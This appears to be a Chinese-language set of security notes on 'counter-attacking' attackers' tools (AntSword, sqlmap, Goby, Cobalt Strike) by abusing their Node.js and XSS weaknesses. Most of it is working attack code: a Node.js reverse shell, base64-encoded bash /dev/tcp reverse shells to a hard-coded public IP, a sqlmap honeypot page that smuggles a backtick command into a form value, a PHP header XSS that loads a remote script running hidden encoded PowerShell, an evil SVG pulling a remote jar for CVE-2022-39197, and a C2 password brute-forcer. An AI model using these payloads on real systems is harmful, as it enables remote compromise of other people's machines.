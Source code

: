 ## **electron开发的nodejs环境工具**
利用漏洞如CVE-2024-4367 - 在 PDF.js组件执行xss导致命令执行，反弹shell等。

弱能xss直接rce：
```
<img src=x onerror="const{exec}=require('child_process');exec('start calc.exe');">
```

## **Antsword蚁剑反制**
蓝队通过修改后门的代码实现获得蚁剑使用者的权限
复现环境：

* 蓝队：Linux Web
* 红队：Windows Antsword

原理：修改对方的一句话木马代码内容，嵌入js代码，蚁剑内置有nodejs运行环境。
```
<?php header('HTTP/1.1 500 <img src=# onerror=alert(1)>');
```

上线：使用Nodejs 代码反弹shell

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(xx, "xx.xx.xx.xx",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Nodejs 代码：

> 编码组合后：

```
<?php 
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgxMDA4NiwgIjEyNy4wLjAuMSIsIGZ1bmN0aW9uKCl7Y2xpZW50LnBpcGUoc2guc3RkaW4pO3NoLnN0ZG91dC5waXBlKGNsaWVudCk7c2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
```

然后启用监听

```
nc -vlp 10086
```

当红队继续使用蚁剑连接后门时，拿到红队机器权限

> 攻击者在连接shell时，会爆红色错误
> 权限取决于蚁剑使用者的权限
> 关闭蚁剑也不会掉权限
## **SQLMAP反制**

蓝队提前构造注入页面诱使红队进行 sqlmap 注入拿到红队机器权限原理

复现环境：

* 蓝队：Linux Web
* 红队：Linux sqlmap

原理：

命令管道符``：
```
linux： ping   "`ls`"     先执行ls当为命令作为参数，再执行ping
Windows： ping | dir     先执行ping，再执行dir
```
构造注入点页面固定注入参数值，等待攻击者进行注入
参数中有``执行反弹shell命令
```
sqlmap -u "http://xx.xx.xx.xx/test.html?id=aaa&b=`dir`"
sqlmap -u "http://xx.xx.xx.xx/test.html?id=aaa&b=`exec /bin/sh 0</dev/tcp/47.94.236.117/2333 1>&0 2>&0`"
```
> 任意sqlmap版本，注意当前操作系统的管道符进行替换即可
    
实战操作：
1、测试反弹编码
```
bash -i >& /dev/tcp/47.94.236.117/2333 0>&1 YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYxechoYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i
```

2、蓝队构造页面test.php注入页面固定参数值
```
<html>
<head>
    <meta charset="utf-8">  
    <title> A sqlmap honeypot demo</title>
</head>
<body>
 <input>search the user</input>   <!--创建一个空白表单-->
 
 <form action="pass.php" method="post" enctype="text/plain">
  
  <!--创建一个隐藏的表单-->
  <input type='hidden' name='name' value="Lucy&id=45273434&query=shell`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i`&port=6379"/> 
  <!--创建一个按钮，提交表单内容-->
  <input type="submit" value='提交'>
 
 </form>
 
</body>
</html>
```

3、红队攻击者进行注入测试
没有观察就直接执行命令，导致执行了反弹shell命令。
```
sqlmap -u "http://xx.xx.xx.xx/test.php" --data "name=xiaodi&id=45273434&query=shell`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i`&port=6379"
```

## **漏洞扫描工具Goby反制**
Goby客户端也是有nodejs环境。
复现环境:
* 蓝队：Linux Web
* 红队：Windows10 Goby

测试的JS文件
> 1.js
```
(function(){
require('child_process').exec('calc.exe');
})();
```

RCE:
> index.php
```
<?php
header("X-Powered-By: PHP/<img src=1 onerror=import(unescape('http%3A//127.0.0.1/2.js'))>");
?>
<head>
<title>TEST</title>
</head>
<body>
testtest
</body>
</html>
```

> 2.js里面那串是CS生成的powershell命令上线脚本
>红队扫描到这个有php的网址
> 查看资产就会上线

```
(function(){
require('child_process').exec('powershell -nop -w hidden -encodedcommand JABzAD......RQBuAGQAKAApADsA');
})();
```

## **远程控制工具CobaltStrike反制**
复现环境:
* 蓝队：Linux Web
* 红队：Windows10 

对抗Cobaltstrike中的手段：
### **1、伪造流量让cs批量上线假的(欺骗防御，恶搞)**
链接：https://mp.weixin.qq.com/s/VCRg6F9Wq-yg-qajDoJuaw 

### **2、利用漏洞(CVE-2022-39197)**
> Cobalt Strike<=4.7 xss2rce
复现文章：<https://blog.csdn.net/qq_44110340/article/details/130731647>

用火绒剑查看木马的远程连接服务器ip，一般默认端口为50050。
或直接将样本上传威胁感知平台。

* 获取真实ip地址
* 获取NTLM
* RCE
* SSRF

链接：https://github.com/its-arun/CVE-2022-39197
修改EXP里面的代码，EvilJar/src/main/java/Exploit.java，如执行命令，后编译成.jar

修改svg文件中加载地址：evil.svg指向url地址为公网的EvilJar-1.0-jar-with-dependencies.jar
```
<svg xmlns="http://www.w3.org/2000/svg"xmlns:xlink="http://www.w3.org/1999/xlink"version="1.0"><script type="application/java-archive"xlink:href="http://47.94.236.117:8888/EvilJar-1.0-jar-with-dependencies.jar*/><text>CVE-2022-39197</text></svg>
```
可以用python开启访问web服务：
```
python -m http.server 8888
```
执行EXP，自动运行后门上线，攻击者客户端进入列表查看进程时触发命令执行。
```
python cve-2022-39197.py 木马.exe http://47.94.236.117:8888/evil.svg
```

### **3、反制Server服务器,爆破密码（通用)**
针对没有采用隐匿C2地址的技术（cdn，云函数）导致的反制（后门样本被溯源到C2地址）。

用火绒剑查看木马的远程连接服务器ip，一般默认端口为50050。
或直接将样本上传威胁感知平台。

链接：https://github.com/ryanohoro/csbruter
爆破服务端密码：
```
python csbruter.py 127.0.0.1:50050 pass.txt
```
爆出密码即可在cs本地端连接对方服务器。


